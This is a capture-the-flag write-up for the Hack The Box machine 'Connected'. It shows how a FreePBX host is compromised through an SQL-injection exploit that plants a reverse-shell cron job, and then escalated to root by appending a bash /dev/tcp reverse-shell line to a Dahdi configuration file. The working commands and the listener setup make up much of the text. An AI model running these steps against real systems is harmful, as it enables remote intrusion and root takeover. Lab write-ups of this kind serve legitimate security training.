


# Connected


!!! note "Replaceable banner"
    Replace `images/banner.png` in this box folder with the final Connected artwork. The page already points to that filename.

| Field | Value |
| --- | --- |
| Status | Completed — June 8, 2026 |
| Difficulty | Easy; assessed as Medium by the author |
| Focus | Linux, web exploitation |
| Machine | [Connected on Hack The Box](https://app.hackthebox.com/machines/Connected?sort_by=created_at&sort_type=desc) |

## Attack path

1. Scan the host and identify HTTP, HTTPS and SSH.
2. Enumerate the web application and confirm the vulnerable management interface.
3. Use the supplied SQL-injection proof of concept to insert a one-shot reverse-shell cron job.
4. Land as the `asterisk` user on the FreePBX host.
5. Abuse the Dahdi restart workflow to execute a root-owned reverse shell.

## 1. Reconnaissance

The full scan found three exposed TCP services:

```bash
nmap -p- --min-rate 1000 -T4 -Pn -sV -oA nmap_full_scan <TARGET_IP>
```

| Port | Service | Note |
| ---: | --- | --- |
| 22/tcp | SSH | Remote access after obtaining a valid account. |
| 80/tcp | HTTP | Web management surface. |
| 443/tcp | HTTPS | The TLS variant of the same exposed service family. |

The two supplied reconnaissance screenshots are kept in sequence below.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 1.</strong> Initial web reconnaissance against the Connected host.</figcaption>
</figure>

<figure class="htb-figure">
  
  <figcaption><strong>Figure 2.</strong> The second reconnaissance view from the completed lab session.</figcaption>
</figure>

## 2. Obtain a shell through the web application

The source notes use a proof of concept for the SQL-injection issue. The important behavior is that the exploit inserts a temporary cron job that connects back to the operator, waits for the callback, and removes the job to avoid repeated connections.

```bash
python3 exploit.py http://connected.htb --ip <LHOST>
```

A successful run reports the database version, creates the cron job and returns an interactive shell:

```text
[+] Vulnerable! DB version: 5.5.65-MariaDB
[*] Injecting reverse-shell cron job ...
[+] Cron job 'jkbthmng' inserted (runs every minute).
[*] Waiting for callback (up to ~70s) ...
[+] Shell from <TARGET_IP>:<CALLBACK_PORT> !
[+] Removed cron job 'jkbthmng' (no repeat callbacks).
```

Stabilize the callback before continuing:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

The shell lands in the FreePBX environment as `asterisk`. From there, confirm the user flag location:

```bash
[asterisk@connected ~]$ ls
user.txt

[asterisk@connected ~]$ cat user.txt
<USER_FLAG_REDACTED>
```

## 3. Privilege escalation through the Dahdi restart path

The completed solution appends a command to the Dahdi initialization configuration and creates the restart marker consumed by the management workflow. Use an operator-controlled listener before triggering the restart:

```bash
# On the operator machine
nc -lvnp 9001
```

```bash
# From the asterisk shell
printf '%s\n' 'bash -c "bash -i >& /dev/tcp/<LHOST>/9001 0>&1" &' \
  >> /etc/dahdi/init.conf

echo 'restart' > /var/spool/asterisk/sysadmin/dahdi_restart
```

When the Dahdi restart handler processes the marker, the callback arrives with root privileges. Verify the context before reading the root flag:

```bash
[root@connected /]# whoami
root

[root@connected /]# cat /root/root.txt
<ROOT_FLAG_REDACTED>
```

## Takeaways

- A web-facing SQL injection can become a reliable foothold when it reaches a scheduled execution path.
- Remove temporary cron jobs after a callback to prevent repeated shells.
- Management scripts that process restart markers must validate both the caller and the requested action.
- A privileged service must not consume attacker-controlled configuration or restart files without strict ownership and content checks.
